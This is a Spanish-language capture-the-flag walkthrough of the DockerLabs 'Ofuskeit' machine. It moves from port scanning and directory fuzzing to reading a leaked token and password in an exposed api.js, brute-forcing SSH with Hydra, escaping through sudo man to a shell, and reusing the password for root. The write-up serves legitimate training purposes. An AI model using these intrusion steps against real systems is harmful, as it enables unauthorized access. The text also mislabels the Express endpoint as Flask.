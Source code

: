 ```yaml
---
icon: flag
---
```


# Ofuskeit DockerLabs (Intermediate)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip ofuskeit.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh ofuskeit.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-07 04:52 EDT
Nmap scan report for thedog.dl (172.17.0.2)
Host is up (0.000049s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 f4:1e:4f:80:e4:25:19:87:a5:2b:e5:fe:b3:16:5d:70 (ECDSA)
|_  256 7d:5a:d8:80:54:05:d2:2f:6f:7f:59:26:4f:6f:83:a8 (ED25519)
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Servicios de Mantenimiento Inform\xC3\xA1tico
3000/tcp open  http    Node.js Express framework
|_http-title: Error
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.64 seconds
```

Veremos que hay un puerto `80` en el que parece alojar una pagina web y despies veremos un puerto `3000` que tiene un servidor `js` el cual parece bastante interesante, pero vamos a ver que contiene el puerto `80`, si entramos veremos una pagina normal sobre mantenimiento informatico, por lo que vamos a realizar un poco de `fuzzing` a ver que encontramos.

## Escalate user admin

### Gobuster

Ya que tiene un servidor `JS` vamos a probar a meter como extension `.js` para ver que nos puede encontrar.

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt,js -t 50 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt,js
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 2129]
/.html                (Status: 403) [Size: 275]
/api.js               (Status: 200) [Size: 494]
/javascript           (Status: 403) [Size: 275]
/script.js            (Status: 200) [Size: 1916]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1102800 / 1102805 (100.00%)
===============================================================
Finished
===============================================================
```

Veremos que nos encuentra un `api.js` el cual parece bastante interesante, vamos a ver que contiene.

```js
const express = require('express');
const app = express();
const PORT = 3000;

const tokenValido = "EKL56L4K57657JÃ‘456J74K5Ã‘6754";

app.use(express.json());

app.post('/api', (req, res) => {
  const { token } = req.body;

  if (token === tokenValido) {
    return res.send("âœ… Acceso concedido. ContraseÃ±a chocolate123");
  } else {
    return res.status(401).send("âŒ Token invÃ¡lido.");
  }
});

app.listen(PORT, () => {
  console.log(`ðŸš€ API activa en http://localhost:${PORT}`);
});
```

Veremos que es un `endpoint` que parece ser de `Flask` en el que tiene como parametro el `/api` para realizar la conexion y con una clave secreta llamada `EKL56L4K57657JÃ‘456J74K5Ã‘6754`, tambien vemos que cuando funciona nos porporciona una contraseña llamada `chocolate123`, y la `API` esta activa en el puerto `3000` por lo que vemos.

Igualmente si nosotros lo hubieramos echo de esta forma:

```shell
curl -X POST http://<IP>:3000/api \
  -H 'Content-Type: application/json' \
  -d '{"token":"EKL56L4K57657JÑ456J74K5Ñ6754"}'
```

Info:

```
✅ Acceso concedido. Contraseña chocolate123
```

Ahora vamos a ver si con esa contraseña hay algun usuario en el sistema que contenga dicha contraseña, por lo que vamos a realizar un ataque de `fuerza bruta` de esta forma:

### Hydra

```shell
hydra -L <WORDLIST> -p chocolate123 ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-07 05:05:49
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 624370 login tries (l:624370/p:1), ~9756 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: admin   password: chocolate123
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Veremos que ha funcionado y hemos encontrado las credenciales del usuario `admin` por lo que vamos a conectarnos por `SSH`.

### SSH

```shell
ssh admin@<IP>
```

Metemos como contraseña `chocolate123` y veremos que estamos dentro.

## Escalate user balulito

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for admin on b510a27bba00:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User admin may run the following commands on b510a27bba00:
    (balulito) NOPASSWD: /usr/bin/man
```

Vemos que podemos ejecutar el binario `man` como el usuario `balulito` por lo que haremos lo siguiente:

```shell
sudo -u balulito man man
!/bin/bash
```

Info:

```
balulito@b510a27bba00:/home/admin$ whoami
balulito
```

## Escalate Privileges

Vemos que con este usuario no podemos hacer practicamente nada, despues de buscar un rato largo, vamos a probar a reutilizar la contraseña de `root` con la que utilizamos para el usuario `admin`.

```shell
su root
```

Metemos como contraseña `chocolate123` y veremos que estaremos dentro.

Info:

```
root@b510a27bba00:/home/admin# whoami
root
```

Veremos que ya seremos el usuario `root` por lo que habremos terminado la maquina.
